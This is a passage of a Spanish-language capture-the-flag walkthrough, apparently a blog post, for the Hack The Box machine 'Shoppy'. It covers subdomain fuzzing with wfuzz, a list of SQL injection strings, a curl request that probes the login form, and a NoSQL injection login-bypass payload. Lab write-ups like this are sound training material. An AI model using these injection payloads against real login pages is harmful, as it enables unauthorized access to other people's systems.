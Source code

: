 ```
![](/assets/img/shoppy/shoppy2.png)

### Fuzzing de subdominios

Nunca esta de mas ver si hay subdominios en el dominio web, asi que con wfuzz podemos hacerlo, ingresando el comando:

```wfuzz -u 'http://shoppy.htb/' -H 'Host: FUZZ.shoppy.htb' -t 100 -w /usr/share/wordlists/bitquark-subdomains-top100000.txt --hh=169```

Este comando es similar al anterior, solo que ahora con ```--hh=169``` le indicamos que oculte las respuesta con una longitud de 169, y el 169 es por que esa es la longitud de caracteres de un subdominio incorrecto.

Al final solo descubrio un subdominio (tambien los debemos de agregar a los hosts):

```000047340:   200        0 L      141 W      3122 Ch     "mattermost"```

El subdominio es: ```mattermost```

El cual es otra pestaña de login:

![](/assets/img/shoppy/shoppy3.png)

## Flag de user

Ahora toca buscar y explotar vulnerabilidades para conseguir la primera flag. Empezaro con el primer dominio que encontramos: ```http://shoppy.htb/login```, como tenemos un login, lo mas comun es probar inyecciones SQL, podemos probar con los payloads mas comunes para SQL injection, como estos:

```
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
```
Y dependiendo de la respuesta sabremos de que se trata, en mi caso simplemente le mandare una comilla al input del usuario, y encontraseña lo que sea (pueden usar BurpSuite o curl, en mi caso usare curl por que tengo muchas cosas abiertas, y el Burp hace que me pete la patata de compu que tengo jajaja)

Con curl lanzare la siguiente peticion:

```curl shoppy.htb/login -id "username='&password=12345"```

Esto respondera con un 504, osea que se tardo mucho y no respondio, asi que empece a probar inyecciones basadas en tiempo y a ciegas y tampoco funciono, entonces lo otro que queda es probar inyecciones NoSQL, asi que intentare con un payload de una inyeccion NoSQL para evadir el login: ```admin'||'1==1```

```